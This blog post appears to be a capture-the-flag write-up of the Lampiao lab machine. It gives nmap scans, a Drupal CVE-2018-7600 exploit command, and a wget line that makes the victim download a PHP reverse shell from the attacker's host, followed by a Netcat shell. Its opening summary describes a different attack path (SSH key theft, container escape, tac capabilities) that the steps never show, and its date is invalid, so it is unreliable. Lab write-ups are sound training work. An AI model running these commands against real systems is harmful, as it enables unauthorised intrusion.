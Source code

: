 ```yaml
---
layout: single
title: Lampiao - Proving grounds Play
date: 2023-13-06
classes: wide
header:
  teaser: /assets/images/linux.png
categories:
  - provinggrounds
  - infosec
tags:
  - provinggrounds
  - linux

---
```


## Linux

![](/assets/images/linux.png)

This blog post is a writeup of the Lampiao machine from Proving grounds play.

### Summary
------------------
- The webserver has a vulnerable function that can be used to browse directories and read files
- We can read the SSH private key from the `nobody` user home directory and log in as `nobody`
- We're within a container but we can log in with SSH as user `monitor` to the host (127.0.0.1)
- There's a logMonitor application running with elevated capabilities (it can read log files even if not running as root)
- This is a hint that we should be looking at capabilities of files (`cap_dac_read_search+ei`)
- We look at the entire filesystem for files with special cap's and we find that the `tac` application has that capabily and we can read `/root/root.txt`

### Detailed steps
------------------

### Enumeration

There's a webserver, a SSH service and another interesting open port (1898) running on this box.

![nmap1](D:\Alex\ESTUDIOS\OSCP\Lorealex.github.io\assets\images\pg-play-lampiao\1.JPG)

Let's take a closer look at these ports with Nmap.
 ```
 nmap -A 192.168.201.48 -p 22,80,1898 -o nmap_lampiao.txt
 ```
![nmap2](D:\Alex\ESTUDIOS\OSCP\Lorealex.github.io\assets\images\pg-play-lampiao\2.JPG)


As we can see in the last picture, the 1898 port it's running an HTTP service. Nmap HTTP enum returns some interesting files as CHANGELOG.TXT

CHANGELOG.txt it's a common file in Drupal which shows the current version.
In this case the current version it's `7.54`.

![changelog](D:\Alex\ESTUDIOS\OSCP\Lorealex.github.io\assets\images\pg-play-lampiao\5.JPG)


`Drupal 7.54` it's vulnerable to a remote code execution as we can see in `CVE-2018-7600` --> https://www.drupal.org/sa-core-2018-002
To exploit this vulnerability I used the following python code --> https://github.com/pimps/CVE-2018-7600

The first step was to check the vulnerability. I successfully executed the exploit with `id` command.
 ```
 python3 drupa7-CVE-2018-7600.py http://192.168.201.48:1898 -c id
 ```

![exploit1](D:\Alex\ESTUDIOS\OSCP\Lorealex.github.io\assets\images\pg-play-lampiao\6.JPG)


Now, in order to gain access to the victim's machine, I uploaded a PHP revershell to the webserver.

Configuring the webshell:
![shell1](D:\Alex\ESTUDIOS\OSCP\Lorealex.github.io\assets\images\pg-play-lampiao\7.JPG)

After configuring the webshell, I opened an HTTP server on my Kali machine with python in my webshell directory:
 ```
 python3 -m http.server 443
 ```

To upload the webshell I used the python exploit to execute a wget command on the victim's machine:
 ```
 python3 drupa7-CVE-2018-7600.py http://192.168.201.48:1898 -c "wget http://192.168.45.177:443/php-reverse-shell.php"
 ```
![exploit2](D:\Alex\ESTUDIOS\OSCP\Lorealex.github.io\assets\images\pg-play-lampiao\8.JPG)


At this point, I was able to access to my webshell on victim's machine and capture the shell running a Netcat listener.
![shell2](D:\Alex\ESTUDIOS\OSCP\Lorealex.github.io\assets\images\pg-play-lampiao\10.JPG)

![shell3](D:\Alex\ESTUDIOS\OSCP\Lorealex.github.io\assets\images\pg-play-lampiao\9.JPG)


Having access to www-data user I was able to find the first flag:
![shell3](D:\Alex\ESTUDIOS\OSCP\Lorealex.github.io\assets\images\pg-play-lampiao\userf.jpg)